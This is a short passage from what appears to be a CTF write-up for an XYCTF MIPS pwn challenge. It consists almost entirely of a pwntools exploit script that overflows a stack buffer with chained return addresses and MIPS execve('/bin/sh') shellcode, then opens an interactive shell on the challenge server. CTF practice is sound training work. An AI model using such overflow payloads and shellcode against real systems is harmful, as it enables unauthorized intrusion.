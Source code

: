 ![image-20250818183129299](./img/mips/image-20250818183129299.png)

#### exp

```python
from pwn import *
context(os='linux', arch='mips', endian='little')
elf = ELF("./mips")

# p = process(['qemu-mipsel-static', './mips'])

p = remote('gz.imxbt.cn', 20478)

# p = process(['qemu-mipsel-static', '-g', '1234', './mips'])
# gdb.attach(target=('localhost', 1234), exe=elf.path, gdbscript='b *0x400844')

p.recvuntil(b'welcome XYCTF mips world')

shellcode = asm('''
li $t7, 0x6e69622f
li $t6, 0x68732f
sw $t7, 16($sp)
sw $t6, 20($sp)

la $a0, 16($sp)
addiu $a1, $zero, 0
addiu $a2, $zero, 0
li $v0, 4011

syscall                
''')

payload = b'a'*0x44 + p32(0x00401174)
payload += b'a'*0x20 + p32(0x0041FBF4)
payload += b'a'*0x10 + p32(0x0040B2A0)
payload += b'a'*56 + shellcode

p.sendline(payload)

p.interactive()
```

